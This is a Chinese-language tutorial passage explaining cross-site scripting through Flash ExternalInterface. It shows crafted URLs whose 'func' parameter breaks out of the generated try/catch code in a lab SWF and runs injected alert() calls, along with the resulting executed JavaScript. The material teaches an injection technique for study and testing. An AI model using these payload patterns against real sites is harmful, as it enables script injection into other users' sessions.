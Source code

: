 对比：

```
try { __Flash__toXML(函数名("参数 1")) ; } catch (e) { "<undefined/>"; }

```

创建 url：

```
http://192.168.4.70/ExternalInterface_first.swf?func=alert(1))}catch(e){alert(100)}// 
```

这样实际执行的 js 代码为：

```
try { __Flash__toXML(alert(1))}catch(e){alert(100)}// ("参数 1")) ; } catch (e) { "<undefined/>"; }

http://192.168.4.70/ExternalInterface_first.swf?func=a1lert(1))}catch(e){alert(100)}//

try { __Flash__toXML(a1lert(1))}catch(e){alert(100)}// ("参数 1")) ; } catch (e) { "<undefined/>"; }

```

预期结果应该是第一个 url 执行之后弹出数字 1，第二个 url 执行之后弹出数字 100。 访问

```
http://192.168.4.70/ExternalInterface_first.swf?func=alert(1))}catch(e){alert(100)}// 
```

![enter image description here](img/img6_u24_png.jpg)

访问

```
http://192.168.4.70/ExternalInterface_first.swf?func=a1lert(1))}catch(e){alert(100)}// 
```

![enter image description here](img/img7_u11_png.jpg)
